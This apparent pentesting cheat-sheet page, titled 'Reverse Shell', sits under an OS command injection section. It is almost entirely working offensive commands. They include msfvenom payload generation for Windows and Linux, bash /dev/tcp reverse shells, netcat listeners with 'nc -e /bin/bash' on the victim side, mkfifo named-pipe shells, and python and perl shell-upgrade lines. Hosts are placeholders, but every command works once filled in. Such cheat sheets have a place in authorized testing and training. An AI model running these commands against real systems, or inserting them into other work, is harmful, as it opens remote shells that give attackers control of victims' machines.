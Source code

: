 ```yaml
---
title: Reverse Shell
layout: default
parent: OS Command Injection
has_children: false
nav_order: 4
---
```


<h2>Windows:</h2>

1. `msfvenom --platform Windows -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o shell1.exe`

<h2>Linux:</h2>

1\. Simple bash:\
`bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"`

OR

`#!/bin/bash`

`bash -i >& /dev/tcp/ip/port 0>&1`

Netcat listener (remove rlwrap if cannot use):
`rlwrap nc -nvlp 8007`

2\. MSFVenom to generate (can change cmd/unix to linux/x64):\
`msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'`

Use it with:
`msfvenom -p cmd/xxx LHOST=IP LPORT=yyy`
Then if want file, add `-f elf > shell.elf` (Remember `chmod +x`)\
Most common:\
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell1.elf`

3\. Simple netcat listener:
`nc -nvlp 4444`

Victim:
`nc -e /bin/bash IP 4444`

4\. One liner:\
<code>mkfifo /tmp/bzxltd; nc IP PORT 0</tmp/bzxltd | /bin/sh >/tmp/bzxltd 2>&1; rm /tmp/bzxltd</code>


<h2>Upgrade Interactive Shell:</h2>
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

<h2>Semi Shell only:</h2>
`/bin/bash -i`\
`perl -e 'exec "/bin/sh";'`\
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f`